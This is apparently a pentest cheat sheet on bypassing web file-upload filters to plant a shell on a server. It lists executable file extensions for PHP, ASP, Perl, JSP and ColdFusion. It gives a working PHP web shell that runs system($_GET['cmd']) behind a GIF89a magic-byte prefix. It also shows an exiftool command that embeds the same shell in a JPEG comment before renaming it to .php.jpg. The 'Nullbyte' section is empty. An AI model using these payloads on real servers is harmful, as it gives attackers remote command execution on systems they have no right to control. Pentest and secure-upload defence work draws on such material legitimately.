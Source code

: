 # Bypass File Upload Filtering

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## Rename it

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php**
phtml, .php, .php3, .php4, .php5, and .inc

**asp**
asp, .aspx

**perl**
.pl, .pm, .cgi, .lib

**jsp**
.jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion**
.cfm, .cfml, .cfc, .dbm

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file

mv lo.jpg lo.php.jpg

## Nullbyte


## References

http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html

https://www.owasp.org/index.php/Unrestricted_File_Upload
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf
